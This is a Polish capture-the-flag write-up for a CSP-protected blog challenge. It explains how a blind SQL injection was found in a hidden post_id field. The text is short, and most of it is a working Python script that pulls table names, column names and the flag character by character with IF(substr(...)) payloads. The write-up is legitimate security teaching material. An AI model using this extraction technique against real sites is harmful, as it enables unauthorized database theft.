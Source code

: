 # Bezpieczny Blog

Niedawno postanowiłem ochronić swój blog przed rozmaitymi cyberzagrożeniami poprzez wdrożenie na nim Content-Security-Policy. Nigdy więcej cyberataków!

Mój blog: https://blog.pwning2017.p4.team/

Opis zadania sugeruje XSSa w zadaniu i faktycznie ten XSS jest, ale logi nie wskazują, że jest to sposób na rozwiązanie zadania. Co się okazuje, to że gdy ukryty parametr ```post_id``` zamienimy na ```2```, nie pokazują się żadne komentarze. Natomiast po wpisaniu ```1``` lub ```2-1``` już są. Sugeruje to SQLi, co potwierdzamy sprawdzając payloady ```IF(1=1,1,2)``` oraz ```IF(1=2,1,2)```. Następnie pozostaje tylko napisać exlpoit i zdumpować tabele, kolumny, a następnie samą flagę.

```python
import requests

url = 'https://blog.pwning2017.p4.team/submit'


def payload_table(character, position, offset):
    return 'IF(substr((select table_name from information_schema.tables WHERE table_schema != \'mysql\' AND table_schema != \'information_schema\' limit 1 offset ' + str(offset) + '),' + str(position) + ',1)=\'' + character + '\',1,2)'

def payload_column(character, position, offset):
    return 'IF(substr((select column_name from information_schema.columns WHERE table_schema != \'mysql\' AND table_schema != \'information_schema\' limit 1 offset ' + str(offset) + '),' + str(position) + ',1)=\'' + character + '\',1,2)'

def payload_data(character, position, offset):
    return 'IF(substr((select flag from ctf_flag limit 1),' + str(position) + ',1)=\'' + character + '\',1,2)'


def dump(offset):
    res = ''
    pos = len(res) + 1
    request_counter = 0
    found = True

    while found:
        with requests.Session() as s:
            found = False
            req = s.get('https://blog.pwning2017.p4.team/')
            for ch in range(ord('}'), ord('!'), -1):
                request_verification = 'request_counter_' + str(request_counter)
                # data = {'post_id' : payload_table(chr(ch),pos, offset), 'who' : 'a', 'text' : request_verification}
                # data = {'post_id': payload_column(chr(ch), pos, offset), 'who': 'a', 'text': request_verification}
                data = {'post_id': payload_data(chr(ch), pos, offset), 'who': 'a', 'text': request_verification}
                headers = {'Content-Type' : 'application/x-www-form-urlencoded'}

                req = s.post(url=url, data=data, headers=headers, allow_redirects=False)
                # print(req.status_code, data)
                req = s.get('https://blog.pwning2017.p4.team/')

                if req.text.find(request_verification) != -1:
                    res += chr(ch)
                    pos += 1
                    print(res)
                    found = True
                    break

                request_counter += 1
    return res

#table name: blog_comment,ctf_flag
#columns: id,instance,post_id,who,content,flag
#flag: pwn{blind_sqli_in_insert_kinda_fun}
dump(1)
```

